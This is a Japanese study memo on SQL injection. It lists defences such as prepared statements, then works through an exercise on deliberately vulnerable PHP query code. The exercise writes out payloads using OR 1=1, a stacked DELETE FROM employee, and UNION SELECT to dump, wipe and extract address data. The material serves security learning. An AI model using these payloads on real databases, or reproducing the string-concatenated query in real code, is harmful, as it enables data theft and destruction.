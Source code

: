 ```yaml
---
title: SQLインジェクション_2021-03-11
date: 2021/03/11
tags:
 - memo
---
```


SQLインジェクション対策
- 構文すべての変数をエスケープ処理する
- バリデーションチェック
- データベースサーバのログの監視／解析
- クエリにバインド機構（メカニズム）を実装
  - プリペアードステートメント
  - プレースホルダ

## 【問題】
下記のような構造のテーブルがあります。

employeeテーブル
![](https://marunouchi-tech.i-studio.co.jp/wp-content/uploads/2015/05/e5ca523b65ff019e73e92d917d9a38051-300x74.png)
 
addressテーブル
![](https://marunouchi-tech.i-studio.co.jp/wp-content/uploads/2015/05/7ba69790faa42404ca89f64c1a96342b1.png)

employeeテーブルのidと、addressテーブルのemployee_idにはリレーションが張ってあります。(と思ってください。)
また、実行されるプログラムは、下記のものになります。

```javascript
$name = $_POST['name'];
$sql = 'SELECT id, name FROM employee WHERE name = \'%'.$name.'%\' AND created &gt;= \'2015-05-01 00:00:00\'';
//→このあとDB接続処理、SQLの実行処理が続きます(割愛)
```

このとき、下記それぞれの動作を実現させるためには、$_POST[‘name’]としてどのような値をPOSTすればよいでしょうか。

Q1.全社員のid、名前を取得する
Q2.employeeテーブル内のデータを全削除する
Q3.全社員の住所情報を取得する


## Q1の解答例
単純にnameの値を指定すると、そのユーザーのデータしか取得することができないので、全データを表示させるようにWHERE句の記述を変えてあげる必要があります。
たとえば、

```javascript
$name = '\' OR 1 = 1; -- ';
```

を指定することで、

```javascript
SELECT id, name FROM employee WHERE name = '%' OR 1 = 1; -- %' AND created &gt;= '2015-05-01 00:00:00'
```

というSQL文が流されることになり、

![](https://marunouchi-tech.i-studio.co.jp/wp-content/uploads/2015/05/answer11-300x261.png)

のように他の社員のデータを取得することができます。

まず、最初に「\’」を指定することでクォートで囲われた部分を終わらせ、また最後に「;–」を指定することで、後に続くSQLの条件をコメントアウトします。
また、全データを条件として指定する際に、「OR 1=1」と指定することで、WHERE句の条件を無効化しています。

## Q2の解答例

最初と最後にそれぞれ「\’」と「;–」を指定する必要があるのはQ1と同じですが、その中でテーブルのデータを削除するSQL文を書いてあげる必要があります。
たとえば、Q1の値の続きにSQL文を追記し、

```javascript
$name = '\' OR 1 = 1; DELETE FROM employee; -- ';
```

といった値を指定することで、SQL文は、

```javascript
SELECT id, name FROM employee WHERE name = '%' OR 1 = 1; DELETE FROM employee; -- %' AND created &gt;= '2015-05-01 00:00:00'
```

が実行され、

![](https://marunouchi-tech.i-studio.co.jp/wp-content/uploads/2015/05/answer2-300x157.png)

のように社員のデータを全削除することができます。
今回はデータの削除でしたが、同様にDELETE文のところに別のSQL文を指定することにより、データの書き換えや、果てはDB設定の変更など、様々な動作を起こすことができます。

## Q3の解答例
Q2のロジックと同じで、DELETE文のところにJOINさせたSELECT文を指定することで実現できそうですが、ちょっとだけ別のやり方をご紹介します。
たとえば、

```javascript
$name = '\' OR 1 = 1 UNION SELECT employee_id, address FROM address; -- ';
```
とすると、実行されるSQLは

```javascript
SELECT id, name FROM employee WHERE name = '%' OR 1 = 1 UNION SELECT employee_id, address FROM address; -- %' AND created &gt;= '2015-05-01 00:00:00'
```

となり、

![](https://marunouchi-tech.i-studio.co.jp/wp-content/uploads/2015/05/answer31-212x300.png)

という結果が出力され、社員の住所を知ることができます。
このように、自分が実行したいSQLをうまく動作させるにはいくつかパターンがあり、

- 「;」で一度SQL文を終わらせてから、実行したいSQLを記述する
- UNIONでSQL文をつなげることで、実行したいSQLを記述する
  
などのパターンがあります。